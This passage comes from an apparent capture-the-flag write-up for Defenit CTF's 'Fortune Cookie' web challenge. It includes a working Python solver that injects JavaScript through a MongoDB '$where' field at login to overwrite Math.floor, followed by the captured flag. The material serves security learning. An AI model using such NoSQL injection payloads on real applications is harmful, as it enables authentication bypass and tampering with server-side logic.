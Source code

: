 At last, let's make payload to rewrite `Math.floor` function well.

### Solver

I wrote a solver like below:

```python
#!/usr/bin/env python3
import requests


"""
Constants
"""
URL = 'http://fortune-cookie.ctf.defenit.kr'
N = 588488491  # Large enough to prevent accidents in a shared environment


"""
Exploit
"""
s = requests.Session()

payload = f"Math.floor = this.constructor.constructor('return {N}'); return 0"
s.post(f'{URL}/login', data={"username[$where]": payload})
s.get(f'{URL}/posts')

flag = s.get(f'{URL}/flag', params={'favoriteNumber': N}).text
print(f'{flag=}')
```

Executed it, then I got the flag.
Yay!

```shell-session
$ python3 solver.py
flag='Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}'
```

### Flag

`Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}`

## Thoughts(?)

I really enjoyed the challenges!
Thank you Defenit CTF.

## Inquiry

If you have any questions or suggestions regarding this article, please contact [8ayac](https://twitter.com/8ayac).
In addition, since I am studying English, I would be happy if you could tell me about my strange English expressions.

Thanks!
